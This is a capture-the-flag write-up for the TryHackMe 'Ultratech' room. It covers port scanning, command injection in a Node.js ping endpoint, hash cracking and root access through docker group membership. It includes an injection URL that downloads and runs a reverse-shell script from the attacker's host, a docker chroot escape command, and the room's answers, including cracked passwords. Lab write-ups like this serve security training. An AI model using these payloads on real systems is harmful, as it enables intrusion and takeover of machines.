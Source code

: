 ```yaml
---
title: "Ultratech"
date: 2025-09-23
layout: writeup
platform: TryHackMe
categories: [web, pentesting, linux, boot2root]
tags: [web, pentesting, linux, boot2root]
---
```


# Ultratech

Writeup for the Ultratech room on TryHackMe.

## Enumeration

We start with a simple nmap scan.

```bash
nmap -sS -vv -p- -A 10.10.144.196
```

We were able to find the following information:
21/tcp — FTP (vsftpd 3.0.3)
22/tcp — SSH (OpenSSH 7.6p1 Ubuntu)
8081/tcp — Node.js Express
31331/tcp — Apache HTTPD 2.4.29

Which software is using the port 8081?

> node.js

Which other non-standard port is used?

> 31331

Which software using this port?

> Apache

Which GNU/Linux distribution seems to be used?

> Ubuntu

Then for the next question I used `gobuster` to find endpoints on the web server.

It found 2 endpoints: `/auth` and `/ping`.

The software using the port 8081 is a REST api, how many of its routes are used by the web application?

> 2

## Endpoint /ping

The auth endpoint didn't let us do much without credentials, so I started looking at the `/ping` endpoint.

It threw back an error with trace.

```
TypeError: Cannot read property 'replace' of undefined
    at app.get (/home/www/api/index.js:45:29)
    at Layer.handle [as handle_request] (/home/www/api/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/www/api/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/www/api/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/www/api/node_modules/express/lib/router/layer.js:95:5)
    at /home/www/api/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/www/api/node_modules/express/lib/router/index.js:335:12)
    at next (/home/www/api/node_modules/express/lib/router/index.js:275:10)
    at cors (/home/www/api/node_modules/cors/lib/index.js:188:7)
    at /home/www/api/node_modules/cors/lib/index.js:224:17
```

This kind of hinted at the fact that the endpoint was expecting a parameter.
I tried common ones like `host`, `address` and finally `ip` worked.

It gave output of the ping shell command. which meant that it might be vulnerable to command injection.

So I tried different things like inserting `; ls` and `| ls` `$()` etc but none of them worked.

Then I tried using backticks to execute commands and it worked.

Now through basic commands i want able to find all the information for Task 3.

There is a database lying around, what is its filename?

> ultratech.db.sqlite

What is the first user's password hash?

> f357a0c52799563c7c7b76c1e7543a32

Looking up the hash on crackstation.net

What is the password associated with this hash?

> n100906

## Root

Getting a reverse shell was what i was stuck on for some time. I tried a lot of payloads from `revshells.com/` but none of them worked, i believe it was due to the special characters in the payload.

Finally I was able to get a reverse shell using a simple python http server to host my payload (rev.sh) and using wget to download and execute it.

```
http://10.201.48.24:8081/ping?ip=127.0.0.1%0Awget%20http://10.17.28.236:8000/rev.sh%20-O%20/tmp/rev.sh%0Apython3%20/tmp/rev.sh
```

Once I had a shell, I immediately put linpeas on my web server and fetched it on the target to run.

It showed that there was a user called `r00t`.
I rememberd that there was another hash in the database.
I looked it up on crackstation and got the password to the user.

Now came the final step, getting root.
The `r00t` user was part of the `docker` group.

I looked up the existing docker images and was able to start a bash shell as root.

```
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

And there we have it, root access.

What are the first 9 characters of the root user's private SSH key?

> MIIEogIBA
